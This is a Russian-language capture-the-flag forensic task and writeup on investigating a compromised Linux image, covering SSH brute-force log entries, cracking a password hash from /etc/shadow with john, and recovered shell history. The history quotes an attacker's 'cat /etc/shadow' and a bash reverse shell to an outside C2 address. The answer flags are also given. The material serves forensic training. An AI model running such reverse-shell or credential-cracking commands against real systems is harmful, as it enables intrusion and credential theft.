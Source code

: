 # Linux Forensic Quest. Uncovering the Intrusion

## Участникам

### Легенда

Вам необходимо провести расследование, связанное с компрометацией Linux-системы нашего сотрудника. Ваша задача - проанализировать криминалистический образ системы  и выявить все возможные артефакты, связанные с компрометацией.

### Задача

1. Восстановить IP-адрес хоста, с которого был получен первоначальный доступ к скомрометированному хосту.  Формат ответа RDGCTF{ipaddress}
2. Восстановить имя учетной записи и пароль в явном виде от скомпрометированного пользователя. Формат ответа RDGCTF{username_password}
3. Восстановить IP-адрес центра удаленного управления (C2), используемый злоумышленником после компрометации хоста. Формат ответа RDGCTF{ipaddress}

## Организаторам

### Hints
- Используй программные решения для анализа криминалистических образов
- (Flag 2) Не забудь проверить журналы операционной системы и программного обеспечения
- (Flag 3) История все помнит

### Writeup

Нам дан образ скомпрометированной системы в формате vmdk. Воспользуемся одним из криминалистических инструментов для анализа образов ([Autopsy](https://www.autopsy.com/), [FTK Imager](https://www.exterro.com/ftk-imager) и др.). Мой выбор пал на FTK Imager. После добавления образа в дерево доказательств видим, что один из разделов отформатирован в файловую систему EXT4. Данный раздел имеет специфичную для Linux-систем файловую иерархию. Приступим к решению задач.

**Восстановить IP-адрес хоста, с которого был получен первоначальный доступ к скомрометированному хосту**. 
В ходе анализа не удается выявить свидетельств о наличии активных сервисов, функционирующих на узле, за исключением сервиса SSH. Данные сервис используется для организации удаленного доступа к системе. 
Проведем анализ содержимого журнала */var/log/auth.log*, где агрегируются события, связанные с попытками аутентификации в систему. Фиксируем там события, указывающие на попытки перебора учетных данных пользователя *petrov*. Брутфорс продолжался с 25.03.2023 21:57:21 по 25.03.2023 22:00:29. Уже в 22:00:30 пароль был успешно подобран.
```bash
Mar 25 22:00:24 workstation sshd[1657]: Failed password for petrov from 192.168.5.142 port 43174 ssh2
Mar 25 22:00:27 workstation sshd[1654]: Failed password for petrov from 192.168.5.142 port 43156 ssh2
Mar 25 22:00:27 workstation sshd[1656]: Failed password for petrov from 192.168.5.142 port 43170 ssh2
Mar 25 22:00:27 workstation sshd[1659]: Failed password for petrov from 192.168.5.142 port 43182 ssh2
Mar 25 22:00:27 workstation sshd[1657]: Failed password for petrov from 192.168.5.142 port 43174 ssh2
Mar 25 22:00:29 workstation sshd[1654]: Failed password for petrov from 192.168.5.142 port 43156 ssh2
Mar 25 22:00:29 workstation sshd[1656]: Failed password for petrov from 192.168.5.142 port 43170 ssh2
Mar 25 22:00:29 workstation sshd[1657]: Failed password for petrov from 192.168.5.142 port 43174 ssh2
Mar 25 22:00:29 workstation sshd[1659]: Failed password for petrov from 192.168.5.142 port 43182 ssh2
Mar 25 22:00:30 workstation sshd[1654]: Accepted password for petrov from 192.168.5.142 port 43156 ssh2
```
Как мы можем заметить, источником воздействий выступал узел с IP-адресом **192.168.5.142**.

**Восстановить имя учетной записи и пароль в явном виде от скомпрометированного пользователя.** 
Имя учетной записи мы уже выяснили на прошлом шаге. Давайте проверим стойкость пароля. Восстанавливаем файл */etc/shadow*, содержащий хеш-суммы пользовательских паролей. Для восставления пароля в открытом виде воспользуемся инструментом [john](https://www.openwall.com/john/doc/) 
```bash
$ john --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt shadow
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
qwerty           (petrov)     
1g 0:00:00:00 DONE (2023-03-26 06:39) 8.333g/s 2133p/s 2133c/s 2133C/s 123456..freedom
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
Достаточно быстро получаем пароль - qwerty. Флаг RDGCTF{petrov_qwerty}.

**Восстановить IP-адрес центра удаленного управления (C2), используемый злоумышленником после компрометации хоста.** 
Для начала необходимо понять, что делал злоумышленник после получения удаленного доступа к системе. Обратимся к истории интерпретатора bash для пользователя petrov (*/home/petrov/.bash_history*):

```bash
sudo -i
ip a
ls -lh
group
groups 
sudo -i
shutdown
shutdown now
sudo shutdown now
```

Обращаем внимание на попытки перейти в окружении супер-пользователя с помощью команды *sudo -i*. Попытка была успешной. Это подтвержается членством petrov в группе adm (/etc/groups, /etc/sudoers) и все тем же auth.log:
```bash
...
Mar 25 22:10:11 workstation sudo:   petrov : TTY=pts/0 ; PWD=/root ; USER=root ; COMMAND=/bin/bash
...
```
У супер-пользователя тоже есть своя история интерпретатора bash (/root/.bash_history):
```bash
exit
ls
exit
cat /etc/passwd
cat /etc/shadow
bash -i >& /dev/tcp/130.193.48.228/1337 0>&1
exit
```
Видим, что злоумышленник вывел содержимое файлов passwd и shadow, а затем предпринял попытку установления reverse shell с помощью встроенных возможностей операционной системы. Адрес C2 злоумышленника - **130.193.48.228**.

### Flags

- (Flag 1) RDGCTF{192.168.5.142}
- (Flag 2) RDGCTF{petrov_qwerty}
- (Flag 3) RDGCTF{130.193.48.228}
